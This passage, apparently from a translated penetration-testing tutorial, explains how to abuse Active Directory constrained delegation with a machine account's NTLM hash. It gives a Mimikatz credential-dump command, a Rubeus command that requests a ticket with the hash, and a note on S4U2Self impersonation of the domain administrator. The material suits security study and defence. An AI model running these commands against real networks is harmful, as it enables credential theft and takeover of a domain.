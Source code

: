 ![](./images/19.png#pic_center)

#### Use the Hash Value of the Machine Account

It is similar to the idea of ​​ticket attack using machine accounts, but the `Hash` value is used here.

Conditions of use:
- Requires `Administrator` permission
- The target machine account is configured with binding delegation

```powershell
# Use mimikatz to get machine account NTLM Hash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
dd3c90bd9c09c393521d46fe8955e9f6

# Use Rubeus to apply for TGT that constrains the delegated machine account WIN-WEB$
Rubeus.exe asktgt /user:WIN-WEB$ /rc4:dd3c90bd9c09c393521d46fe8955e9f6 /domain:hack.local /dc:DC.hack.local /nowrap

# Use Rubeus to pass
S4U2Self protocol requests tickets for domain control CIFS services on behalf of the domain administrator Administrator and injects memory
```